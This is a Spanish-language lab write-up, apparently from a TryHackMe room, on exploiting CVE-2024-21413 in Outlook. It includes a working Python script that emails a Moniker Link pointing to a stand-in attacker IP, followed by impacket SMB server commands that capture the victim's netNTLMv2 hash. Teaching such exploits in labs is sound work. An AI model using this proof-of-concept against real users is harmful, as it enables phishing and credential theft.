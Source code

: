 ```yaml
---
layout: apunte
title: "3. Exploitation"
---
```


Para este ataque, mandaremos un email a nuestra víctima con un Moniker Link similar al visto en la lección anterior. El objetivo, como atacante, es hacer un email con un link moniker que bypassee la vista protegida de Outlook. donde el cliente de la víctima intente cargar un archivo de nuestra máquina de atacante, resultando en la captura del hash netNTLMv2.

Pero antes de comenzar, veremos una prueba de concepto.

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 119/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' #Reemplazar con el email del emisor
receiver_email = 'victim@monikerlink.thm' #Reemplazar con el email del receptor
password = input("Introduce la contraseña del email atacante: ")
html_content = """\
<!DOCTYPE html>
<html lang="es">
	<body>
		<p>Haz click<a href="file://IP_ATACANTE/test!exploit">aquí</a></p>
	</body>
</html>
"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

#Convierte la string HTML a bytes y lo adjunta al objeto del mensaje
msgHtml = MIMEText(html_content, 'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
	server.login(sender_email, password)
except Exception as err:
	print(err)
	exit(-1)

try:
	server.sendmail(sender_email, [receiver_email], message.as_string())
	print("\n Email delivered")
except Exception as error:
	print(error)
finally:
	server.quit()
```

Lo que hace:

- Coge el email del atacante y de la víctima.
- Pide la contraseña para autentificar.
- Contiene el contenido del email (html_content), que contiene el link moniker.
- Rellena los campos Asunto, De y Para.
- Finalmente manda el email

Vamos a usar Responder para crear un escuchador SMB en nuestra máquina atacante. Para la AttackBox THM, la interfaz será `-I ens5`. El nombre de la interfaz cambiará si lo hacemos en nuestro propio dispositivo.

Abrimos la máquina virtual vía RDP con las credenciales correspondientes:

`xfreerdp3 /u:<usuario> /p:<contraseña> /v:<IP>`

Abrimos Outlook en el escritorio remoto. Una vez abierto hacemos click en "No quiero iniciar sesión o crear una cuenta".

En el segundo pop up le damos a la "X" para salir.

En la siguiente ventana veremos la interfaz de Outlook de la víctima, que ya ha sido configurada.

Copiamos y pegamos el código de la PoC (Proof of Concept) en la máquina atacante.

Necesitaremos hacer un par de cambios en el documento antes de ejecutarlo:

- Cambiar la IP del atacante en la linea 12 a nuestra IP atacante.
- Cambiar el placeholder de MAILSERVER en la linea 31 con la IP de la víctima.

Cuando nos pregunten por la contraseña del correo atacante introducimos `attacker`.

Al hacer esto nos debe llegar un correo con un enlace.

Si en la máquina atacante preparamos un impacket (porque responder no funciona bien en nuestra kali), con: `sudo impacket-smbserver test /home/user/smbshare -smb2support -port 1445`. Al hacer click en el enlace nos aparecerá el nombre de usuario y el hash de autentificación.